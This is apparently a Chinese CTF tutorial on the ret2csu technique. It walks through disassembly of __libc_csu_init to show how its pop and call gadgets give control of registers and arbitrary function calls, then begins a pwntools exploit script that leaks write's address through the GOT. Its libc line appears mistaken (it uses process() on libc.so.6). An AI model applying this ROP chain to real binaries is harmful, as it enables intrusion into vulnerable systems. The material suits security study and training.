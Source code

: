 ``` asm
  4005f8:	0f 1f 84 00 00 00 00 	nopl   0x0(%rax,%rax,1)
  4005ff:	00
  400600:	4c 89 ea             	mov    %r13,%rdx
  400603:	4c 89 f6             	mov    %r14,%rsi
  400606:	44 89 ff             	mov    %r15d,%edi
  400609:	41 ff 14 dc          	callq  *(%r12,%rbx,8)
  40060d:	48 83 c3 01          	add    $0x1,%rbx
  400611:	48 39 eb             	cmp    %rbp,%rbx
  400614:	75 ea                	jne    400600 <__libc_csu_init+0x40>
  400616:	48 83 c4 08          	add    $0x8,%rsp
  40061a:	5b                   	pop    %rbx
  40061b:	5d                   	pop    %rbp
  40061c:	41 5c                	pop    %r12
  40061e:	41 5d                	pop    %r13
  400620:	41 5e                	pop    %r14
  400622:	41 5f                	pop    %r15
  400624:	c3                   	retq
  400625:	90                   	nop
  400626:	66 2e 0f 1f 84 00 00 	nopw   %cs:0x0(%rax,%rax,1)
  40062d:	00 00 00
```

我们来关注一下`0x40061a`处的汇编代码

``` asm
40061a:	5b                   	pop    %rbx
40061b:	5d                   	pop    %rbp
40061c:	41 5c                	pop    %r12
40061e:	41 5d                	pop    %r13
400620:	41 5e                	pop    %r14
400622:	41 5f                	pop    %r15
400624:	c3                   	retq
```

我们可以通过这片代码控制`rbx rbp r12 r13 r14 r15`寄存器的值，

``` asm
400600:	4c 89 ea             	mov    %r13,%rdx
400603:	4c 89 f6             	mov    %r14,%rsi
400606:	44 89 ff             	mov    %r15d,%edi
400609:	41 ff 14 dc          	callq  *(%r12,%rbx,8)
40060d:	48 83 c3 01          	add    $0x1,%rbx
400611:	48 39 eb             	cmp    %rbp,%rbx
```
随后借由`0x400600`我们通过`r13 r14 r15`间接控制了`rdx rsi edi`的值。随后是`callq  *(%r12,%rbx,8)`也就是`call qword ptr [r12+rbx*8]`，我们设置`rbx=0`，再构造`r12`的值，那么就可以调用任意地址的函数。执行完`call qword ptr [r12+rbx*8]`后，`rbx+=1`并将`rbx`与`rbp`进行比较，这里我们设置`rbp`的值为1，那么在比较的时候恒成立，那么程序接下来继续执行，就可以成功retrun到我们想要的地址

首先我们先来构造payload1，利用`write()`函数输出write在内存的地址

``` python
from pwn import *

elf = process('ret2__libc_csu_init')
libc = process('libc.so.6')

got_write = elf.got['write']
got_read = elf.got['read']
main = elf.symbols['main']
bss_addr = elf.bss()

csu_init_front = 0x400600
pop_rbx_rbp_r12_r13_r14_r15_ret = 0x40061a

#write(rdi=1, rsi=write.got, rdx=4)
#rbx=0
#rbp=1
```